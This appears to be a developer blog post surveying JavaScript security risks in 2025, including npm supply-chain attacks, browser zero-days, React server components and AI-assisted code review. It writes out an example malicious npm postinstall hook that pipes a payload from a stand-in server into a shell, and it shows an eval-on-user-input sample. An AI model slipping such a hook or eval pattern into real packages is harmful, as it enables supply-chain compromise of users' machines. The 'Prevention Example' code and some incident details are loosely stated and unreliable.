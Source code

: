 ```yaml
---
title: "JavaScript Security Attacks and Bugs Every Developer Must Know in 2025"
description: "Explore the most critical JavaScript threats, latest bugs, and practical mitigations for 2025. Learn real-world examples, code vulnerabilities, and how modern tools—including AI—can help you build safer apps."
keywords: "JavaScript security 2025, React attacks, AI for code security, zero-day exploits, JS bugs, modern web threats, developer best practices"
---
```


# JavaScript Security Attacks and Bugs Every Developer Must Know in 2025

In 2025, the web is more powerful—and riskier—than ever. Modern JavaScript features, cutting-edge frameworks, and rapid ecosystem changes boost developer productivity but also introduce new attack surfaces and security pitfalls. This deep dive covers the latest attacks, notable vulnerabilities in popular packages, and actionable tips (with code) to secure your next React or Node.js project.

## Why JavaScript Security in 2025 Is a Top Priority

- **Zero-day bugs are escalating**: Major browsers and leading npm packages face critical vulnerabilities exploited shortly after release.
- **Modern JS = More Attack Vectors**: Server-side rendering (SSR), server components (RSC), AI-driven UIs, and new Set methods add complexity and risks.
- **Developers are targets**: Popular open-source dev tools are increasingly attacked, not just user-facing apps.

## 1. Recent Major Attacks Impacting Developers

### a. Supply Chain Attacks & Package Bugs
The npm ecosystem remains a prime target. In June 2025, multiple zero-day vulnerabilities struck popular web frameworks and package managers, with malicious code injected into build pipelines.

**Example: Malicious Package Install Script**
```javascript
// Malicious postinstall script example in an npm package
"scripts": {
  "postinstall": "curl -s https://malicious-server.com/payload.sh | sh"
}
```
- **Mitigation**: Lock dependencies with `npm ci`, use `npm audit` ([npm audit docs](https://docs.npmjs.com/cli/v10/commands/npm-audit)), and consider GitHub’s Dependabot ([Dependabot docs](https://docs.github.com/en/code-security/dependabot)) for auto-vulnerability detection. Always review third-party packages before installing.

### b. Zero-Day Vulnerabilities in Browsers & JS Engines
- **Google Chrome (CVE-2025-5419)**: The third actively exploited zero-day in 2025, leveraging new JS engine features for privilege escalation ([Chrome release notes](https://chromereleases.googleblog.com/2025/07/stable-channel-update-for-desktop.html)).
- **Microsoft Copilot (CVE-2025-32711)**: Known as "EchoLeak," this zero-click data exfiltration via prompt injection in a widely used developer tool was patched quickly after disclosure ([Microsoft security update](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-32711)).

### c. Exploits Targeting Frameworks
- **WordPress Theme "Motors" (CVE-2025-4322)**: A privilege escalation bug hijacked admin accounts, driven by vulnerable JS plugin code failing to validate user input ([WordPress security release](https://wordpress.org/news/2025/07/security-release/)).

## 2. New JavaScript Features & Potential Pitfalls

2025 introduces new ECMAScript features, but missteps can heighten risks:

### Modern RegExp `/v` Flag
- **What’s New**: Enables advanced Unicode features like intersection, union, and string matching.
- **Code Example**:
  ```javascript
  // Safe usage example
  let emojiPattern = /\p{RGI_Emoji}/v;
  let result = emojiPattern.test("Hello 😄"); // true if emoji detected
  ```
- **Warning**: Sanitize user-supplied regex patterns to prevent ReDoS (Regular Expression Denial of Service) attacks ([OWASP ReDoS info](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)).

### Promise.try()
- **Feature**: Catches sync exceptions in promise chains.
- **Pitfall**: Overuse can mask errors if not handled explicitly.
  ```javascript
  function safeCompute() {
    return Promise.try(() => possiblyUnsafeFunc())
      .catch(err => { 
        // Handle error appropriately!
        console.error(err); // Replace with proper logging
      });
  }
  ```

### Node, Deno, and Bun Divergence
2025 sees growing runtime divergence, causing compatibility and breakage bugs in cross-platform packages ([Node.js runtime trends](https://nodejs.org/en/blog/2025/01/runtime-trends)).

## 3. The Role of React and Modern UI Attacks

### Server Components & SSR
- **Trend**: React 19 and Next.js adopt Server Components, reducing client bundle size by shifting logic server-side ([Next.js blog](https://nextjs.org/blog/next-15)).
- **Attack Angle**: SSR endpoints can expose sensitive data or internal APIs if not isolated.
- **Prevention Example**:
  ```javascript
  // Server Component fetch
  export default function DashboardData() {
    // NEVER expose API keys or secrets from here!
    const stats = fetch('/api/admin-stats', { headers: { 'Authorization': `Bearer ${process.env.API_TOKEN}` } });
    return <div>{stats}</div>;
  }
  ```

### Real-World Exploit
- **Case**: Several 2025 attacks exploited React apps by injecting malicious JavaScript through misconfigured SSR endpoints, leading to data leaks ([React security updates](https://react.dev/blog/2025/security-updates)).

## 4. Leveraging AI for Proactive Defense
AI coding assistants (GitHub Copilot, Codeium, TabNine) now flag insecure code, detect outdated npm packages, and assist with secure Express/React endpoints ([GitHub Copilot features](https://github.com/features/copilot), [Codeium AI security blog](https://codeium.com/blog/ai-security)).

**Example: Using AI to Spot Bad Practices**
```javascript
// AI tools auto-flag use of unsafe eval()
function runUserScript(input) {
  eval(input); // AI warning: Security risk—code injection possible!
}
```
- **Best Practice**: Avoid `eval` on user input; use AI-powered code reviews ([TabNine AI security](https://tabnine.com/blog/ai-code-security)).

## 5. Key Defensive Coding Practices
- **Lock dependencies**: Use exact versions in `package.json` and `npm ci`.
- **Run audits**: Regularly execute `npm audit` and act on advisories ([npm audit docs](https://docs.npmjs.com/cli/v10/commands/npm-audit)).
- **Enforce CSP**: Implement Content Security Policy on all web assets ([MDN CSP guide](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)).
- **Avoid direct user input**: Exclude user data in RegExp, `eval`, or dynamic imports.
- **Secure SSR endpoints**: Validate all incoming requests ([Next.js security docs](https://nextjs.org/docs/app/building-your-application/securing-your-app)).
- **Leverage AI tools**: Use static analysis for peer code review.

## Also Read
- [Leveraging AI for Proactive App Security Monitoring in 2025](https://ome9a.com/blogs/leveraging-ai-for-proactive-app-security-monitoring-in-2025-6887ab48006af5fb73e8ccf4)
- [Analyzing the Tea App Breach: Cybersecurity Lessons for Developers in 2025](https://ome9a.com/blogs/analyzing-the-tea-app-breach-cybersecurity-lessons-for-developers-in-2025-688525fb5e0c80382f5d0f8a)
- [Securing JavaScript Applications with Content Security Policy (CSP) in 2025](https://ome9a.com/blogs/securing-javascript-applications-with-content-security-policy-csp-in-2025-687f43a6cbecc7f0227e0fe6)

## Challenges
- **Rapid Evolution**: Keeping up with new JS features and vulnerabilities is demanding.
- **Tool Dependency**: Over-reliance on AI or third-party tools can introduce risks.
- **User Education**: Developers need training to spot subtle security issues.

## Conclusion
As JavaScript evolves rapidly in 2025, so do its attack surfaces—from zero-day exploits to supply chain attacks via npm packages. Understanding these threats and applying preventive measures like dependency locking, secure SSR, cautious feature integration, and AI tools can keep your projects secure while delivering modern experiences.

**Stay curious, stay secure, and keep shipping clean code.**

**Call to Action**: Defend your projects in 2025 - Use modern tools, stay aware of new JavaScript features, and treat every dependency as a potential risk. Have a story about a recent bug or attack? Share on X at [@omegaStrikes](https://x.com/omegaStrikes) with #JS2025—let’s strengthen the developer community together!
